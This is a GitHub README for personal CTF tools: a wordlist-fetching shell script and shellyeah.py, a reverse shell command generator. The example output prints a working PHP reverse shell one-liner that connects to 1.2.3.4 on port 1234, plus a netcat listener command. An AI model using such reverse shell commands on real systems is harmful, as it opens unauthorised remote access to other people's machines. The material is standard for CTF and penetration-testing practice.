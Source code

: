 # ctf_tools
CTF tools crafted for my personal needs.

## wl_fetcher.sh
`wl_fetcher.sh` or WL-fetcher (wordlist fetcher), which is a single tool to fetch wordlists from multiple sources into the provided directory.

List of fetched worlists are hard coded. Modify the list to fit your needs. Perhaps this tool will be modified later to support list of repositories as a parameter.

### Usage
```sh
$ mkdir wordlists/
$ chmod +x wl_fetcher.sh
$ ./wl_fetcher.sh -d wordlists/  # Fetches the wordlists
$ ./wl_fetcher.sh -u wordlists/  # Fetches changes for the wordlists
```

#### Example
```sh
$ ./wl_fetcher.sh -h
__          ___          ______   _       _               
\ \        / / |        |  ____| | |     | |              
 \ \  /\  / /| |  ______| |__ ___| |_ ___| |__   ___ _ __ 
  \ \/  \/ / | | |______|  __/ _ \ __/ __| '_ \ / _ \ '__|
   \  /\  /  | |____    | | |  __/ || (__| | | |  __/ |   
    \/  \/   |______|   |_|  \___|\__\___|_| |_|\___|_|   

Usage: ./wl_fetcher.sh [OPTION] [DIRECTORY]
Fetches wordlists into the provided directory.

Options:
-h, --help             Display this help message
-d, --directory        Specify the directory to fetch wordlists into
-l, --list             Lists repos from which wordlists are fetched
-u, --update           Fetches updates for wordlists (if available)
```

## shellyeah.py
`shellyeah.py` is a CLI tool for generating reverse shell commands.
### Usage:
```sh
$ python3 shellyeah.py -a 127.0.0.1 -p 1234 -s "php exec"
$ python3 shellyeah.py  # List parameters and available shell commands
```

#### Examples
```sh
$ python3 shellyeah.py -a 1.2.3.4 -p 1234 -s "php exec"

 _______________________________________
< Shell Yeah! - Reverse Shell Generator >
 ---------------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\

Listener command:
nc -lvnp 1234

Reverse shell command:
php -r '$sock=fsockopen("1.2.3.4",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
